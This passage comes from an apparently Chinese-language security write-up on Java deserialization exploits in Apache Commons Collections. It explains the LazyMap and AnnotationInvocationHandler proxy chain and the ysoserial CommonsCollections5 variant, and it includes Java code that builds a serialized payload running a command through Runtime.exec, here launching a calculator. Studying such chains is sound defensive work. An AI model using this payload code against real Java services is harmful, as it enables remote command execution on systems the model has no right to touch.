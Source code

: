 所以此处的利用方法要用到Java的[动态代理机制](https://www.jianshu.com/p/6f6bb2f0ece9)。

首先利用`AnnotationInvocationHandler`这一动态代理类来为`LazyMap`生成一个代理对象，然后再将该代理对象作为`AnnotationInvocationHandler`类构造方法的参数生成最终要序列化生成payload的对象。

这样在反序列化的时候，`AnnotationInvocationHandler`类的`readObject`函数在调用时会调用代理对象的方法，根据动态代理机制，也就会触发`AnnotationInvocationHandler`的`invoke`函数，进而会发生`LazyMap`类的`get`函数的调用，随后触发`transform`函数并触发命令执行。

生成payload的代码如下所示：

```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
        new InvokerTransformer("exec", new Class[] {String.class}, new Object[] {"gnome-calculator"})
};
Transformer transformedChain = new ChainedTransformer(transformers);


Map normalMap = new HashMap();
Map lazyMap = LazyMap.decorate(normalMap, transformedChain);

//lazyMap.get("key");

Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
ctor.setAccessible(true);

InvocationHandler invo = (InvocationHandler) ctor.newInstance(Retention.class, lazyMap);

Map mapProxy = Map.class.cast(Proxy.newProxyInstance(invo.getClass().getClassLoader(), lazyMap.getClass().getInterfaces(), invo));

Object instance = ctor.newInstance(Retention.class, mapProxy);

// the function to write searialized object to file
serialize_write_file(instance);
```

然而同样由于JDK版本的问题，该种方式的反序列化同样不能成功实现命令执行。（参考[ysoserial issue](https://github.com/frohoff/ysoserial/issues/65)）

#### 利用BadAttributeValueExpException类的LazyMap反序列化漏洞分析与测试

网络上对于Common Collections的反序列化分析基本集中于上述两种利用方式，然而它们在本文的测试环境中无法复现。

在Github上的[ysoserial](https://github.com/frohoff/ysoserial)项目中，发现其中的CommonsCollections5可以使用，它同样是基于反序列化时调用`LazyMap`的`get`方法。

可以使用下述代码生成序列化后的payload：

```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
        new InvokerTransformer("exec", new Class[] {String.class}, new Object[] {"gnome-calculator"})
};
Transformer transformedChain = new ChainedTransformer(transformers);

Map normalMap = new HashMap();
```